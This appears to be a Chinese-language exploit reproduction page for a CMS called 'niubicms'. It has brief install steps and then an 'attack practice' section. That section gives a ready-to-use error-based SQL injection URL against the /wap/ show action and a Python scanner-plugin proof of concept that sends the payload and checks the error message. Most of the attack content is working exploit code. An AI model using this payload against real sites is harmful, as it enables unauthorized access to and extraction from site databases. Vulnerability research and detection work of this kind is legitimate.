 # 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)





## 攻击实战


在浏览器输入
```
http://192.168.1.170:7777/wap/?action=show&mod=admin%20where%20userid=1%20and%20(select%201%20from%20(select%20count(*),concat(1,floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--
```

攻击的payload


```
def assign(service,arg):
    if service == "niubicms":
    	return True, arg

def audit(arg):
	payload = "/wap/?action=show&mod=admin%20where%20userid=1%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%281,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29--"
	code, head, res, errcode,finalurl =  curl.curl("\"%s\"" % (arg + payload))

	if code == 200:
		if "for key 'group_key'" in res:
			security_hole('find sql injection: ' + arg+payload)

if __name__ == "__main__":
	from dummy import *
	audit(assign('niubicms', 'http://www.example.com/')[1])
```

![image]({path}/4.png)
